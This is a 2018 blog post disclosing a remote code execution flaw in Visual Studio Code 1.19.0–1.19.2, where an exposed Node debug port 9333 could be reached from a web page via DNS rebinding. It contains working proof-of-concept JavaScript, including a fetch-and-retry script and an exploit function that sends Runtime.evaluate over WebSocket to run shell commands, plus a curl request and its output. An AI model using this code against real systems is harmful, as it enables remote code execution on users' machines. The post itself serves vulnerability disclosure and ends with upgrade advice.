 ```yaml
---
layout:	post
title:	"Visual Studio Code silently Fixed a Remote Code Execution Vulnerability"
date:	2018-03-16
image: /img/2018-03-16-visual-studio-code-silently-fixed/p07rMuQGd-Hgf4u_NGH91Q.png
---
```


I occasionally noticed that Visual Studio Code was listening on a fixed TCP port 9333. After upgrading to 1.19.3, it's gone.

```
➜ ~ netstat -an | grep 9333
tcp4 0 0 127.0.0.1.9333 *.* LISTEN
```

Looks like it's a bug that affects VSCode 1.19.0~1.19.2. Extension process always run in debug mode, because of an accidentally added `--inspect` argument.

* [Make sure extension don't accidentally run in 'debug'-mode · Issue #39569 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/39569)
* [Clear — inspect* / — debug* arg when starting extension host · Issue #40443 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/40443)

Actually this is not just a bug. **It is exploitable.**

I guess he's found the same problem:

[Vulnerability in 1.19.x · Issue #42116 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/42116)

To reproduce the bug, download an older release:

* <https://vscode-update.azurewebsites.net/1.19.2/win32-x64/stable>
* <https://vscode-update.azurewebsites.net/1.19.2/darwin/stable>

Exploiting this port is quite simple. **Since it's a debug port you can absolutely inject arbitrary code into debuggee context**. Start Chrome browser an navigate to chrome://inspect

![Chrome's built-in javascript debugging tool](/img/2018-03-16-visual-studio-code-silently-fixed/C-3RYPLdCVdXfVA7soA53Q.png)

Click "Configure" and add localhost:9333 to the list:

![Add target](/img/2018-03-16-visual-studio-code-silently-fixed/E2noAEuWmwYbTW3mkyOluQ.png)

Now click inspect to inject javascript into VS Code process:

![Remote targets shown in Chrome](/img/2018-03-16-visual-studio-code-silently-fixed/uY1Ozt9Gw2lVHgTdDb121Q.png)

And profit!

![code execution in node.js](/img/2018-03-16-visual-studio-code-silently-fixed/p07rMuQGd-Hgf4u_NGH91Q.png)

To weaponize this, we need to interact with devtools protocol from a remote web page. The protocol is based on HTTP and WebSocket. Check out the spec here:

* <https://github.com/ChromeDevTools/devtools-protocol>
* <https://chromedevtools.github.io/devtools-protocol/>

First, get the session id from <http://127.0.0.1:9333/json/list>

```
➜ ~ curl -v localhost:9333/json -H "Host: dns.rebind"
* Trying ::1...
* TCP_NODELAY set
* Connection failed
* connect to ::1 port 9333 failed: Connection refused
* Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 9333 (#0)
> GET /json HTTP/1.1
> Host: dns.rebind
> User-Agent: curl/7.54.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: application/json; charset=UTF-8
< Cache-Control: no-cache
< Content-Length: 649
<
[ {
 "description": "node.js instance",
 "devtoolsFrontendUrl": "chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "faviconUrl": "<https://nodejs.org/static/favicon.ico>",
 "id": "c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "title": "/private/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/AppTranslocation/EE69BB42-2A16-45F3-BB98-F6639CB594B1/d/Visual Studio Code.app/Contents/Frameworks/Code Helper.app/Contents/MacOS/Code Helper",
 "type": "node",
 "url": "file://",
 "webSocketDebuggerUrl": "ws://127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f"
} ]
* Closing connection 0
```

See the webSocketDebuggerUrl? That's all we need to attach the debugger.

It's a problem to fetch response from cross origin webpage. [Tavis Ormandy](https://medium.com/u/a82703d95ec2) has already shown some cases through dns-rebinding: <https://bugs.chromium.org/p/project-zero/issues/list?can=1&q=dns+rebinding&colspec=ID+Type+Status+Priority+Milestone+Owner+Summary&cells=ids>

![A case shows that a local port can be access from remote web page](/img/2018-03-16-visual-studio-code-silently-fixed/gV1f6shbOrzgAeQMmADQXw.png)

So an attacker needs to setup a DNS server to alternatively resolve an malicious domain between 127.0.0.1 and the actual web content ip address, with a short TTL. First the browser access the exploit page, then wait for a timeout for the browser to invalidate the previous dns record, so we can bypass same origin policy to read from `evil.com:9333/json/list`, which is actually from localhost.

For those who are interested in DNS rebinding, check these out:

* <https://github.com/ctfs/write-ups-2016/tree/master/0ctf-2016/web/monkey-4>
* <https://lock.cmpxchg8b.com/rebinder.html>
* <https://github.com/lorenzog/dns-rebinding>

Some people asked how long does it take to alter the DNS to 127.0.0.1. During my experiment, I borrow the dns server from <https://lock.cmpxchg8b.com/rebinder.html> and set a 120s script timeout before `XMLHttpRequest` / `fetch`, and it just worked.

```js
function log(msg) {
  const pre = document.createElement('pre');
  pre.appendChild(document.createTextNode(msg));
  document.body.appendChild(pre);
}

const interval = 120 * 1000;
async function main() {
  let list;
  try {
    list = await fetch('/json').then(r => r.json());
  } catch(e) {
    // retry
    log('retry');
    return setTimeout(main, interval);
  }
  const item = list.find(item => item.url.indexOf('file:///') === 0);
  if (!item) return log('invalid response');
  log('url:' + item.webSocketDebuggerUrl);
  // exploit(url);
}
main()
```

Now talk to the WebSocket server to inject the 2nd stage payload.

WebSocket supports cross domain unless the server explicitly checks `Origin:` header upon connection. So communicating with `webSocketDebuggerUrl` does not require any additional dns trick, except that `https://` page can't connect to `ws://`. Finally, call  `Runtime.evaluate` to inject script.

Assume the WebSocket server url is __ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7__, run the following script in any (non-https) webpage to see a calculator:

```js
function exploit(url) {
  function nodejs() {
    const cmd = {
      darwin: 'open /Applications/Calculator.app',
      win32: 'calc',
      linux: 'xcalc',
    };
    process.mainModule.require('child_process').exec(cmd[process.platform])
  };
  const packet = {
    "id": 13371337,
    "method": "Runtime.evaluate",
    "params": {
      "expression": `(${nodejs})()`,
      "objectGroup": "console",
      "includeCommandLineAPI": true,
      "silent": false,
      "contextId": 1,
      "returnByValue": false,
      "generatePreview": true,
      "userGesture": true,
      "awaitPromise": false
    }
  };

  const ws = new WebSocket();
  ws.onopen = () => ws.send(JSON.stringify(packet));
  ws.onmessage = ({ data }) => {
    if (JSON.parse(data).id === 13371337)
      ws.close()
  };
  ws.onerror = err => console.error('failed to connect');
}
exploit('ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7')
```

Compared to [the recent Electron bug](https://medium.com/0xcc/electrons-bug-shellexecute-to-blame-cacb433d0d62), the later requires user interaction and only affects Windows. If you are on these versions, just upgrade. Anyways, the debugging utility will still be enabled if you manually launch VSCode command with `--inspect=[port]`. Better use an alternative random port than 9333 to avoid potential exploit.

P.S.

For any electron based desktop app, there's a `--remote-debugging-port` switch.

**Update 2018-03-30:**

Node.js has officially fixed the remote debugging protocol issue

[March 2018 Security Releases - Node.js](https://nodejs.org/en/blog/vulnerability/march-2018-security-releases/#node-js-inspector-dns-rebinding-vulnerability-cve-2018-7160)